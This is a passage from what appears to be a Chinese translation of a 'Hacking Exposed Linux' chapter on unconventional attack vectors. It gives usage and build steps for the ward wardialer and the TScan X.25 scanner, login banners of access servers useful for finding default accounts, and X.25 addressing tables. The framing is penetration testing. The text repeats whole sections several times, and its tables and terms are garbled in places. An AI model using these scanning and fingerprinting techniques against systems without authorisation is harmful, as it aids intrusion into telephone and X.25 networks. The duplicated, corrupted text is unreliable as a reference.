- `-t` : 设置调制解调器超时（默认=60秒）
- `-d` : 使用此设备（默认=`/dev/modem`）

通用参数：

- `-h` : 打印帮助

## Hacking Exposed Linux：Linux 安全秘密与解决方案

```
$ =PuTTY
root@smaug:-# makes ward
cc ward.c -o ward
root@smaug:-# ./ward
./ward v2.3 - Fast wardier for UNIX systems (PSTN/ISDN/GSM)
Copyright (c) 2001-2005 Marco Ivaldi <raptor@0deadbeef.info>
nuusage:
./ward [-g file] [-n nummask] [-r] (generation mode)
./ward [-z file] [-t timeout] [-d dev] (scanning mode)
generation mode:
 -g 生成号码列表并保存到文件
 -h 生成模式下使用的数字掩码
 -r 开启随机模式
scanning mode:
 -s 从文件扫描数字列表
 -t 设置调制解调器超时（默认=60秒）
 -d 使用此设备（默认=/dev/modem）
help:
 -h 显示此帮助信息
root@smaug:-# ward
```

图 6-3

## 要求

你只需要一台 *NIX 盒子和一条电话线（注：此处原文为 *NIX 盒子，通常指 Unix 机器，可能为笔误或强调）。


```
$ =PuTTY
root@smaug:-# makes ward
cc ward.c -o ward
root@smaug:-# ./ward
./ward v2.3 - Fast wardier for UNIX systems (PSTN/ISDN/GSM)
Copyright (c) 2001-2005 Marco Ivaldi <raptor@0deadbeef.info>
nuusage:
./ward [-g file] [-n nummask] [-r] (generation mode)
./ward [-z file] [-t timeout] [-d dev] (scanning mode)
generation mode:
 -g 生成号码列表并保存到文件
 -h 生成模式下使用的数字掩码
 -r 开启随机模式
scanning mode:
 -s 从文件扫描数字列表
 -t 设置调制解调器超时（默认=60秒）
 -d 使用此设备（默认=/dev/modem）
help:
 -h 显示此帮助信息
root@smaug:-# ward
```

图 6-3

## 扫描模式下的参数

- `-s` : 从文件扫描数字列表
- `-t` : 设置调制解调器超时（默认=`60`秒）
- `-d` : 使用此设备（默认=`/dev/modem`）

## 通用参数

- `-h` : 打印帮助

## 要求

你只需要一台 `*NIX` 盒子和一条电话线。

你可以从 `http://www.w0w0.org/files/misc/shokdial` 下载它。

## ward

`ward` 是一个非常优秀的、轻量且快速的用于 UNIX 系统的 C 语言编写的拨号器，其特殊之处在于可以在 PSTN、ISDN 和 GSM 网络上运行。它由 Marco “Raptor” Ivaldi（`raptor@deadbeef.info`）编写，他是一位在国际地下领域闻名的真正的 OSSTMM 贡献者。`ward` 是一个“经典”拨号工具：它扫描电话号码列表，寻找另一端响应的调制解调器，并提供格式良好的扫描结果输出。`ward` 可以根据用户提供的掩码生成电话号码列表，支持增量顺序或随机顺序（这在某些情况下极其有用！）。

- `ward` 是你找到的最快的 PBX 扫描器之一，已经在 Linux, OpenBSD, FreeBSD, NetBSD, Mac OS X 和 Windows/cygwin 上经过测试。针对你的系统进行调优并编译命令：`gcc ward.c -o -lm`。由于 `ward` 编写良好且轻量，我们在这里列出它的用法和一些实用的参数。你可以在图 6-3 中看到 `ward` 的工作情况。

### 用法

```
/ward [-g file] [-n nummask] [-r] (生成模式)
/ward [-s file] [-t timeout] [-d dev] (扫描模式)
```

### 生成模式下的参数

- `-g` : 生成号码列表并保存到文件
- `-n` : 生成模式下使用的数字掩码
- `-r` : 开启随机模式

## Hacking Exposed Linux：Linux 安全秘密与解决方案


# ward 使用说明

``` 
/ward [-g file] [-n nummask] [-r] (生成模式)
/ward [-s file] [-t timeout] [-d dev] (扫描模式)
```

## 生成模式下的参数

- `-g` : 生成号码列表并保存到文件
- `-n` : 生成模式下使用的数字掩码
- `-r` : 开启随机模式

## 扫描模式下的参数

- `-s` : 从文件扫描数字列表
- `-t` : 设置调制解调器超时（默认=`60秒`）
- `-d` : 使用此设备（默认=`/dev/modem`）

## 通用参数

- `-h` : 打印帮助

## Hacking Exposed Linux：Linux 安全秘密与解决方案

```
$ =PuTTY
root@smaug:-# makes ward
cc ward.c -o ward
root@smaug:-# ./ward
./ward v2.3 - Fast wardier for UNIX systems (PSTN/ISDN/GSM)
Copyright (c) 2001-2005 Marco Ivaldi <raptor@0deadbeef.info>
nuusage:
./ward [-g file] [-n nummask] [-r] (generation mode)
./ward [-z file] [-t timeout] [-d dev] (scanning mode)
generation mode:
 -g 生成号码列表并保存到文件
 -h 生成模式下使用的数字掩码
 -r 开启随机模式
scanning mode:
 -s 从文件扫描数字列表
 -t 设置调制解调器超时（默认=60秒）
 -d 使用此设备（默认=/dev/modem）
help:
 -h 显示此帮助信息
root@smaug:-# ward
```

图 6-3

## 要求

你只需要一台 `*NIX` 盒子和一条电话线。

你可以从 `http://www.w0w0.org/files/misc/shokdial` 下载它。

## ward

`ward` 是一个非常优秀的、轻量且快速的用于 UNIX 系统的 C 语言编写的拨号器，其特殊之处在于可以在 PSTN、ISDN 和 GSM 网络上运行。它由 Marco “Raptor” Ivaldi（`raptor@deadbeef.info`）编写，他是一位在国际地下领域闻名的真正的 OSSTMM 贡献者。`ward` 是一个“经典”拨号工具：它扫描电话号码列表，寻找另一端响应的调制解调器，并提供格式良好的扫描结果输出。`ward` 可以根据用户提供的掩码生成电话号码列表，支持增量顺序或随机顺序（这在某些情况下极其有用！）。

`ward` 是你找到的最快的 PBX 扫描器之一，已经在 Linux, OpenBSD, FreeBSD, NetBSD, Mac OS X 和 Windows/cygwin 上经过测试。针对你的系统进行调优并编译命令：`gcc ward.c -o -lm`。由于 `ward` 编写良好且轻量，我们在这里列出它的用法和一些实用的参数。你可以在图 6-3 中看到 `ward` 的工作情况。

### 用法

```
/ward [-g file] [-n nummask] [-r] (生成模式)
/ward [-s file] [-t timeout] [-d dev] (扫描模式)
```

生成模式下的参数：

- `-g` : 生成号码列表并保存到文件
- `-n` : 生成模式下使用的数字掩码
- `-r` : 开启随机模式


# ward

`ward` 是你找到的最快的 PBX 扫描器之一，已经在 Linux, OpenBSD, FreeBSD, NetBSD, Mac OS X 和 Windows/cygwin 上经过测试。针对你的系统进行调优并编译命令：`gcc ward.c -o -lm`。由于 `ward` 编写良好且轻量，我们在这里列出它的用法和一些实用的参数。你可以在图 6-3 中看到 `ward` 的工作情况。

## 用法

```
/ward [-g file] [-n nummask] [-r] (生成模式)
/ward [-s file] [-t timeout] [-d dev] (扫描模式)
```

### 生成模式下的参数

- `-g` : 生成号码列表并保存到文件
- `-n` : 生成模式下使用的数字掩码
- `-r` : 开启随机模式

### 扫描模式下的参数

- `-s` : 从文件扫描数字列表
- `-t` : 设置调制解调器超时（默认=60秒）
- `-d` : 使用此设备（默认=`/dev/modem`）

### 通用参数

- `-h` : 打印帮助

## Hacking Exposed Linux：Linux 安全秘密与解决方案

```
$ =PuTTY
root@smaug:-# makes ward
cc ward.c -o ward
root@smaug:-# ./ward
./ward v2.3 - Fast wardier for UNIX systems (PSTN/ISDN/GSM)
Copyright (c) 2001-2005 Marco Ivaldi <raptor@0deadbeef.info>
nuusage:
./ward [-g file] [-n nummask] [-r] (generation mode)
./ward [-z file] [-t timeout] [-d dev] (scanning mode)
generation mode:
 -g 生成号码列表并保存到文件
 -h 生成模式下使用的数字掩码
 -r 开启随机模式
scanning mode:
 -s 从文件扫描数字列表
 -t 设置调制解调器超时（默认=60秒）
 -d 使用此设备（默认=/dev/modem）
help:
 -h 显示此帮助信息
root@smaug:-# ward
```

图 6-3

## 要求

你只需要一台 *NIX 盒子和一条电话线。

你可以从 `http://www.w0w0.org/files/misc/shokdial` 下载它。

`ward` 是一个非常优秀的、轻量且快速的用于 UNIX 系统的 C 语言编写的拨号器，其特殊之处在于可以在 PSTN、ISDN 和 GSM 网络上运行。它由 Marco “Raptor” Ivaldi（`raptor@deadbeef.info`）编写，他是一位在国际地下领域闻名的真正的 OSSTMM 贡献者。`ward` 是一个“经典”拨号工具：它扫描电话号码列表，寻找另一端响应的调制解调器，并提供格式良好的扫描结果输出。`ward` 可以根据用户提供的掩码生成电话号码列表，支持增量顺序或随机顺序。

# 第 6 章：非常规攻击向量

## TScan

`TScan` 是一款 X.25 扫描器，专门用于通过 X.28 拨号扫描 SprintNet（原为 GTE TeleNet）X.25 网络。你可以轻松将其适配到你喜爱的 X.25 网络，由于 SprintNet 的特殊性，它依赖于允许启动反向计费扫描。许多其他网络也允许此功能，因此你应该仔细测试 `TScan` 在 X.25 网络上的可移植性。

要使用 `TScan`，请找到一个连接到 PAD 的本地拨号点。连接后，你需要将你常用的终端软件（`minicom`, `seyon`, `telix`）设置设置为 7 位数据位、1 位停止位和偶校验校验。

当以低于 1200 波特的速率连接到本地拨号/PAD 时，你需要发送几次“回车”。当在高速率（9600+）连接时，发送一个 `@` 后紧跟一个回车。

`TScan` 已经在 Intel 平台上的 FreeBSD 和 OpenBSD 上经过了测试。它似乎在 Sun Spark OpenBSD 安装上也可以编译。

`TScan` 由 `beave@softwink.com` 编写。你可以从 `http://www.vistech.net/users/beave/tscan-0.2.tar.gz` 或 `ftp://ftp.vistech.net/pub/tscan` 下载。

## 常见横幅

接下来是一些最常见的横幅及其操作系统。通过这些横幅，你可能会发现仍然可用的默认账户。在任何情况下，请记住识别你正在处理的连接类型，这意味着 RAS 可能是 IT 管理 RAS、警报拨号或本章前面提到的任何其他类型的拨号。

在处理属于中小企业和公司的网络时，Cisco 路由器经常用作 PSTN、ISDN 或 X.25 接入服务器。它将以以下方式自我介绍：

- 此计算机系统仅限授权用户访问。
- 未经授权的用户可能会根据《犯罪法》或州法律受到起诉。
- 请注意，所有客户详情均为机密，不得泄露。

用户访问验证

密码：

密码：

密码：

% 密码错误

## 破解 Linux 实战：安全秘密与解决方案

也可能得到不同的输出，在仅请求密码的地方，你可能会发现：

```
#### [公司名称] [国家] [节点号] #####
###### [网络和/或服务名称] ######
################################# 如遇问题，请 #############
############################# 联系 Joe Doe 先生 ############################
################################# 分机号为 2222 ############################
############################################################
```

用户访问验证

用户名：

`Shiva LAN` 路由器经常用作中小企业和 ISP 公司的 PSTN 或 X.25 接入服务器。关于此操作系统的更多信息可以在 `http://www.shiva.com` 找到。以下这本旧黑客杂志（dagazine）的第 7 期详细介绍了由 Hybrid 写的关于破解和保护 Shiva 路由器的有趣文章：`http://www.b4b0.org`。

`Shiva` 路由器将以以下方式自我介绍：

> ****************************************************************
> XYZ 服务提供商 - IT 部门访问
> ****************************************************************

@ 用户 ID：

密码：

登录错误

`Gandalf XMUX` 由 Gandalf Technologies Inc. 生产。只有在 XMUX 控制台设置了密码保护时才会出现 `Password>` 请求；否则，你会发现自己直接处于 XMUX 控制台。

```
Password =
Gandalf [系统名称]
Rev Al 主控制台菜单 [日期]
节点: [节点名称] [时间]

主菜单
..
```


Motorola Codex 6505 Motorola Codex 6505 是一种多路复用器，通常连接到 PSTN、ISDN 和 X.25 网络。它可能像一个“古老”的 VoIP PBX，通过 X.25 网络连接不同的办公室分支，允许执行语音和数据链路，以及 PAD 功能（有关 PAD 的更多信息，请参阅本章后部分的“X.25 网络如何工作”）。

# 第 6 章：非常规数据攻击向量

连接到节点 `XXX` 控制端口，时间 2002-10-10 10:33:20

Codex 6505 PAD, 版本 V2.13

版权 (C) 1989-1992 Motorola Information Systems

输入密码：

节点： XXX 地址： 31102120000 日期： 2002-10-10 时间： 10:35:21

菜单：主路径：(主)

+ 1. 登出
2. 检查
3. 列出
4. 监控
5. 状态/统计
6. 配置
7. 启动
8. 更新系统参数
9. 复制/插入记录
10. 删除记录
11. 端口/站/通道控制
12. 诊断
13. 默认节点
14. 打印配置
15. 配置保存/恢复

Digital Equipment Corporation DECServer DECServer 正如其名，Digital Equipment Corporation（由 Compaq 收购）的 DECServer 常见于 PSTN 和 X.25 网络。

> ****************************************************************
> 欢迎来到 [公司名称]
> ****************************************************************

VOS 是 Stratus 生产的一种操作系统，常见于 PSTN 和 X.25 网络。

```
VOS, 版本 2.13
```

# 攻破Linux：Linux安全秘密与解决方案



**图 6-4** xterm上的 AS/400

通过 PSTN/ISDN 和 SDN 网络并使用终端器程序，你可能会看到图6-4所示的屏幕。你可以在 http://www.as400.ibm.com/ 找到更多信息。

DEC VAX/VMS 或 AXP/OpenVMS VAX/VMS 以及 Alpha/OpenVMS 最初由 DEC生产，多年前被 Compaq 收购，随后被 HP 收购。你可能会它们连接在 PSTN 和 SDN 网络上，提供无限可能的应用程序和用途。

警告 - 禁止未经授权的访问。

欢迎来到节点 [NODE]，VAX/VMS 5.5-4。

# 第6章：非常规的数据攻击向量

这是一个 ACME INC. 网络节点

用户名：

密码：

用户身份验证失败

Sun Solaris 你可以在 X.25 网络上找到 Solaris。这些网络运行 Solaris 的特殊版本，其中包含了 Solaris X.25 栈。

SunLink X.29 终端服务

login:

Santa Cruz Operation SCO UNIX SCO Unix 机器可以在 PSTN 和 X.25 网络上找到，通常位于非常老的环境中。

欢迎来到 SCO UNIX System V/386 Release 3.2

X25!login:

IBM AIX 你可以从其登录请求识别出 IBM AIX 的 X.25 版本：

IBM AIX Version 3 for RISC System/6000

X25!login:

# X.25 网络的工作原理

X.25 是最老的分组交换网络，最初是为电信提供商和银行业务（如自动取款机 ATM 和信用卡授权）开发的。尽管它越来越多地被 Internet 协议所取代，但 X.25 仍然在使用，即使它不再被网络管理人员维护且有时会被遗忘。虽然少的人能通过 X.25 进行攻击这可能是件好事，但实际上能够保护这些网络的人并不多。对于有兴趣对 X.25 网络进行渗透测试的个人，以下细节将非常有用。

## 基础元素

以下元素代表了全球 X.25 网络的主要方案方法：

- 分组交换节点 (SPN)：执行唯一的数据传输动作
- 本地分组交换器 (LPS)：为 DTE X.25 执行访问功能和数据流量交换
- 分组集中器和适配器 (PCA)：执行 PAD 功能和 DTE X.28 访问（PSTN 拨号调制解调器调用）
- 管理与运行中心 (MOC)：执行监督任务并控制网络和单个元素

传输速度取决于相关的元素。事实上，在 SPN 中，LPS 与连接的 SPN 之间的平均速度为 64 Kbit/s，而 PCA 与 LPS 之间的平均对话速度为 9600 bit/s。

图 6-5 定义了一个典型的 X.25 网络结构。



图 6-5 X.25 网络结构

## 呼叫建立

以下方案显示了 X.25 呼叫建立是如何工作的：

| T1 | +---+ | T3 |
| +-----<----- | ------->+ |
| | S1 | Ready | Transition Table |
| +---+ +---+ | | | |
| ! | ! | | |
| +-------+ +-------+ T1 DCE: Call Request |
| S2 | | S2 | T2 DCE: Call Connected |
| DCE Waiting| | T3 DCE: Incoming Call |
| +-------+ +-------+ T4 DCE: Call Accepted |
| | | T5 DCE: Incoming Call |
| | | T6 DCE: Call Request |
| +---->| S5 | |<--| T7 DCE: Call Connected |
| T5 | Call Collision| T6 |
| +---+ +---+ | | |
| T2 | T7 | | T4 |
| | ! | | |
| +---+ | | |
| +---->| S5 | |<---+ |
| | Data Transfer |
| +-----------+|

## 错误代码

表 6-1 及随后的表格包含了有用 X.25 错误代码详细列表。这些代码被组织两个大类以及特定的子类。

## X.3/X.28 PAD 应答码

偶尔，X.25 网络会传输信号

- 作为对命令的响应（X.3 PAD 参数更改、读取 PAD 参数等）
- 由其主动发出
- 作为远程 DCE 操作的结果

按照此逻辑，你可能会接收到四种不同类型的信号代码（见表 6-2）：

- 错误信号
- 断开信号
- 重置信号
- PAD 编辑信号（本节未涵盖）

# 攻破Linux：Linux安全秘密与解决方案

| 错误代码 | 错误内容 | 描述 |
| --- | --- | --- |
| COM | Call connected | X.25 呼叫已建立。 |
| NP | NUA not present | 被呼叫的 X.25 地址不存在。 |
| DER | Out of order | 被呼叫的远程 DTE 不存在。 |
| OCC | Busy | 被呼叫的远程 DTE 乱序。 |
| DTE | The remote DTE does not have any virtual channels | 远程 DTE 没有任何虚拟通道。 |
| RPE | The requested call is canceled | 请求的呼叫已取消。 |
| NA | The requested call is canceled | 请求的呼叫已取消。 |
| RNA | The called X25 call has been established | 被呼叫的 X25 呼叫已建立。 |
| ID | The X.25 call has been established | X.25 呼叫已建立。 |

表 6-1 基本应答码

# 第6章：非常规的数据攻击向量

| 错误类型 | 描述 |
| --- | --- |
| 错误信号 | 请求的 DTE 无。 |
| 断开信号 | 请求的 DTE 不正确。 |
| 重置信号 | 请求的呼叫未完成。 |
| PAD 编辑信号 | 请求的呼叫无效。 |

表 6-2 错误代码

| 信号类型 | 描述 |
| --- | --- |
| COM | X.25 呼叫已建立。 |
| NP | 被呼叫的 X.25 地址不存在。 |
| DER | 被呼叫的远程 DTE 不存在。 |
| OCC | 被呼叫的远程 DTE 乱序。 |
| DTE | 远程 DTE 没有任何虚拟通道（VCs）。 |
| RPE | 请求的呼叫已取消。 |
| NA | 请求的呼叫已取消。 |
| RNA | 被呼叫的 X25 呼叫已建立。 |
| ID | X.25 呼叫已建立。 |
| 信号类型 | 描述 |
| --- | --- |
| RESET DTE | 远程 DTE 将虚拟调用置于重置模式。 |
| RESET RPE | 因为远程 DTE 错误，呼叫置于重置模式。 |
| RESET ERR | 因为本地错误，呼叫置于重置模式。 |
| RESET NC | 因为网络拥塞，呼叫置于重置模式。 |
| RESET DER | 因为 DTE 离线状态，呼叫置于重置模式。 |
| RESET NOP | 因为网络正在重启服务，呼叫置于重置模式。 |
| RESET DOP | 因为远程 DTE 正在重启服务，呼叫置于重置模式。 |

# X.25 路由格式

X.25 路由格式与 PSTN 非常相似。每当我们谈论网络用户地址（NUA）时，指的是其国际标准格式（X.121 地址）。NUA 由以下组成

+ - DNIC
- NUA

DNIC 是由 DCC 加上特定国家 X.25 网络自身的代码生成的，形成一个四位的国际代码。

+ - DCC 3 位
- NCC 1 位

例如，意大利 ITAPAC X.25 网络的 DNIC 是 2222：

222 意大利的 DCC + 2，即 ITAPAC 的网络国家代码

## 第6 章：非常规的数据攻击向量

大小。例如，一个 NUA 可能是 21122878（来自意大利都林理工大学的旧版 X.25 地址），其中：

- 2 代表 ITAPAC
- 11 代表都林市的（PSTN 公共公共电话网）区号。
- 22 878 代表 NPA。

该主机的完整 X.121 地址为：

222 2 11 22 878

通过拆解，你可以得到以下逻辑：

```
022221122878
\| / /| _ /\
\|   |   |
\|  |
22878: 网络端口地址 (NPA)
11: 都林诺区号
2: ITAPAC 网络（因为存在更多网络）
222: ITU 分配给意大利的 DCC
```

从外部和本地读取：

从其他网络读取为：0 222 2 11 22 878

从意大利/ITAPAC 读取为：21122878

这意味着如果客户要求你对 X.25 地址进行渗透测试，首先要应用的是 X.121 地址分析以确定：

- 主机所在的国家
- 地址是否符合法律授权要求
- 地址是否有效
- 你将提供的测试服务所需的 X.25 拨叫平均成本

例如，如果客户为测试提供了以下 NUA：

- 03110211026
- 02802229
- 02624301190

你的分析结果将匹配于以下内容：

| DNIC (4) | AC(3) | NPA(5) |
| :--- | :--- | :--- |
| 3110 | 212 | 10126 (美国，纽约) |
| 2802 | 21 | 229 (塞浦路斯，利马索) |
| 2624 | 30 | 11190 (德国，柏林) |

## 黑客攻防 Linux：Linux 秘密与解决方案

关于 X.25 编码、X.25 破解与防御技术以及与 X.25 世界相关的通用类型的详细信息，可以在网上找到以下演示文：

- Hack in the Box 2005, 吉隆坡：X.25 见 http://www.packetstorm.org/hitb05/BT-Raoul-X25-Security.pdf
- Hack in the Box 2007, 迪拜：X.25 见 http://conference.packetstorm.org/hitb2007/dubai/materials/the-ArabWorld.pdf

## 附录列表

本节包含了 ITU 世界官方列表，对于渗透测试人员在以下情况下非常有用：

- 定义执行 X.25 渗透测试的法律授权
- 规划 X.25 攻击
- 分析 X.25 日志

在参考 ITU 世界列表之前，读者至少应该学习 X.25 编码的主要组织逻辑。图 6-6 将对此帮助。图 6-6 全球主要 X.25 区域

## 第6 章：非常规的数据攻击向量

下表基于图 6-6 所示的图形，因此增加了因马星 (1)。

| 区域 | 洲份/地区 |
| :--- | :--- |
| 1 | 因马星卫星语音/数据通信（大西洋、太平洋、印度洋） |
| 2 | 欧洲、苏联 |
| 3 | 北美、中美、部分加勒比海地区 |
| 4 | 亚洲 |
| 5 | 大洋洲 |
| 6 | 非洲 |
| 7 | 中美、加勒比和南美的一部分 |

参考 ITU 的官方完整 DNIC 列表，其中每个国家内部的 X.25 网络也非常详细（“ITU 公报第818 号附件——2004年8月15日”）。

| 区域 | 国家/地区 |
| :--- | :--- |
| ZONE 1 | 海洋区域 (因马星) |
| ZONE 2 | 202 希腊 |
| 204 | 荷兰（王国） |
| 205 | 荷兰（王国） |
| 206 | 比时 |
| 208 | 法国 |
| 209 | 法国 |
| 210 | 法国 |
| 211 | 法国 |
| 212 | 摩纳哥（亲公国） |
| 213 | 安多拉（亲公国） |
| 214 | 西班牙 |
| 215 | 西班牙 |
| 216 | 匈牙利（共和国） |
| 218 | 波斯尼亚和黑塞哥（共和国） |
| 219 | 克罗地亚（共和国） |
| 220 | 南南夫维亚（联邦共和国） |
| 区域 | 国家/地区 |
| :--- | :--- |
| 222 | 意大利 |
| 223 | 意大利 |
| 224 | 意大利 |
| 225 | 梵蒂冈城 |
| 226 | 罗马尼亚 |
| 228 | 瑞士（联邦） |
| 229 | 瑞士（联邦） |
| 230 | 捷克 |
| 231 | 斯洛伐克 |
| 232 | 奥地利 |
| 234 | 英国和北尔兰 |
| 235 | 英国和北尔兰 |
| 236 | 英国和北尔兰 |
| 237 | 英国和北尔兰 |
| 238 | 丹麦 |
| 239 | 丹麦 |
| 240 | 瑞典 |
| 242 | 挪威 |
| 243 | 挪威 |
| 244 | 芬兰 |
| 246 | 立陶宛（共和国） |
| 247 | 拉脱维亚（共和国） |
| 248 | 爱斯尼亚（共和国） |
| 250 | 俄罗斯联邦 |
| 251 | 俄罗斯联邦 |
| 255 | 乌克兰 |
| 257 | 白俄罗斯（共和国） |
| 259 | 摩尔多瓦（共和国） |
| 260 | 波兰（共和国） |
| 262 | 德国（共和国） |
| 263 | 德国（共和国） |
| 264 | 德国（共和国） |
| 区域 | 国家/地区 |
| :--- | :--- |
| 266 | 直布罗梭 |
| 268 | 葡萄牙 |
| 269 | 葡萄牙 |
| 270 | 卢森堡 |
| 272 | 爱尔兰 |
| 274 | 冰岛 |
| 276 | 阿尔尼亚（共和国） |
| 278 | 马尔他 |
| 280 | 塞浦路斯（共和国） |
| 282 | 格鲁吉亚（共和国） |
| 283 | 亚美尼亚（共和国） |
| 284 | 保加利亚（共和国） |
| 286 | 土耳其 |
| 288 | 法罗群岛 |
| 290 | 格陵兰 |
| 292 | 马里诺（共和国） |
| 293 | 斯洛文尼亚（共和国） |
| 294 | 前马其顿共和国 |
| 295 | 列支敦斯登（亲公国） |
| 302 | 加拿大 |
| 303 | 加拿大 |
| 308 | 圣皮埃尔和密谢隆（法国领地） |
| 310 | 美国 |
| 311 | 美国 |
| 312 | 美国 |
| 313 | 美国 |
| 314 | 美国 |
| 315 | 美国 |
| 316 | 美国 |
| 330 | 波多黎哥 |
| 332 | 英尔京群岛 |
| 区域 | 国家/地区 |
| :--- | :--- |
| 334 | 墨西哥 |
| 335 | 墨西哥 |
| 338 | 牙买加 |
| 340 | 格尔卢普（法国省地）和马提尼克（法国省地） |
| 342 | 巴巴多斯 |
| 344 | 安提瓜和巴布达 |
| 346 | 开曼群岛 |
| 348 | 英属维尔京群岛 |
| 350 | 百慕 |
| 352 | 格林纳达 |
| 354 | 蒙特拉特 |
| 356 | 圣基茨和尼维斯 |
| 358 | 圣卢西亚 |
| 360 | 圣文森特和格纳纳丁 |
| 362 | 荷兰安提列斯 |
| 363 | 阿鲁巴 |
| 364 | 巴哈马（英联邦） |
| 365 | 安圭拉 |
| 366 | 多米尼克国（英联邦） |
| 368 | 古巴 |
| 370 | 多米尼加共和国 |
| 372 | 海地（共和国） |
| 374 | 特立尼达和多巴哥 |


| 376 | 特克斯和凯斯群岛 |

| ZONE 4 |

| 400 | 阿塞拜疆共和国 |

| 401 | 哈萨克斯坦（共和国） |

| 404 | 印度（共和国） |

| 410 | 巴基斯坦（伊斯兰共和国） |

| 411 | 巴基斯坦（伊斯兰共和国） |

| 412 | 阿富汗（伊斯兰国国） |

| 413 | 斯里兰卡（民主社会主义共和国） |

| 区域 | 国家/地区 |

| :--- | :--- |

| 414 | 缅甸（联邦） |

| 415 | 黎巴嫩 |

| 416 | 约旦（哈希姆王国） |

| 417 | 叙利亚阿拉伯共和国 |

| 418 | 伊拉克（共和国） |

| 419 | 库威特（国国） |

| 420 | 沙特阿拉伯（王国） |

| 421 | 耶门（共和国） |

| 422 | 阿曼（苏丹国） |

| 423 | 耶门（共和国） |

| 424 | 阿联酋 |

| 425 | 以色列（国国） |

| 426 | 巴林（国国） |

| 427 | 卡塔尔（国国） |

| 428 | 蒙古 |

| 429 | 尼泊尔 |

| 430 | 阿联酋（阿布扎比） |

| 431 | 阿联酋（迪拜） |

| 432 | 伊朗（伊斯兰共和国） |

| 434 | 乌兹别克斯斯坦（共和国） |

| 436 | 吉尔吉斯斯坦（共和国） |

| 437 | 土库别克斯斯坦 |

| 区域 | 国家/地区 |

| :--- | :--- |

| 457 | 老挝（人民民主共和国） |

| 460 | 中国（人民共和国） |

| 466 | 中国，台湾 |

| 467 | 朝鲜民主主义 |

| 470 | 孟加拉国（人民共和国） |

| 472 | 马尔代夫（共和国） |

| 480 | 韩国（共和国） |

| 481 | 韩国（共和国） |

| ZONE 5 | |

| 502 | 马来西亚 |

| 505 | 澳大利亚 |

| 510 | 印度尼西亚（共和国） |

| 515 | 菲律宾（共和国） |

| 520 | 泰国 |

| 525 | 新加坡（共和国） |

| 528 | 鲁莱 | |

| 530 | 新西兰 |

| 534 | 北马里亚群岛（英联邦） |

| 535 | 关岛 |

| 536 | 瑙鲁（共和国） |

| 537 | 巴布亚新内亚 |

| 539 | 汤加（王国） |

| 540 | 所罗门群岛 |

| 541 | 万努阿图（共和国） |

| 542 | 斐济（共和国） |

| 543 | 法利与富特纳（法国海外领地） |

| 544 | 美属萨摩亚 |

| 545 | 基里巴斯（共和国） |

| 546 | 新加多尼（法国海外领地） |

| 547 | 法属波利尼亚（法国海外领地） |

| 548 | 库克群岛 |

| 549 | 萨摩亚（独立国家） |

## 第 6 章：非常规数据攻击向量

| 区域 | 国家/地区 |

|---|---|

| 550 | 密克罗尼亚（联邦州） |

| ZONE 602 | 埃及（阿拉伯共和国） |

| 603 | 阿尔及利亚（人民民主共和国） |

| 604 | 摩洛哥（王国） |

| 605 | 突尼斯 |

| 606 | 利比亚（利比亚社会主义人民利比亚阿拉伯大贾马希里亚共和国） |

| 607 | 冈比亚亚（共和国） |

| 608 | 塞内加尔（共和国） |

| 609 | 毛里塔尼亚（伊斯兰共和国） |

| 610 | 马里（共和国） |

| 611 | 几内亚（共和国） |

| 612 | 象特迪瓦尔（共和国） |

| 613 | 布基纳法索 |

| 614 | 尼日尔（共和国） |

| 615 | 多多哥共和国 |

| 616 | 贝宁（共和国） |

| 617 | 毛里求斯（共和国） |

| 618 | 利比利亚（共和国） |

| 619 | 塞拉利昂 |

| 620 | 加纳纳 |

| 621 | 尼日利亚（联邦共和国） |

| 622 | 乍得（共和国） |

| 623 | 中非共和国 |

| 624 | 喀麦隆（共和国） |

| 625 | 佛维得（共和国） |

| 626 | 圣多美和普林西（民主共和国） |

| 627 | 赤道几内亚（共和国） |

| 628 | 刚刚共和国 |

| 629 | 刚果（共和国） |

| 630 | 扎埃尔（共和国） |

| 631 | 安哥拉（共和国） |

| 632 | 几内亚比绍（共和国） |

| 633 | 谢塞尔尔（共和国） |

| 634 | 苏丹（共和国） |

| 635 | 卢旺达 |

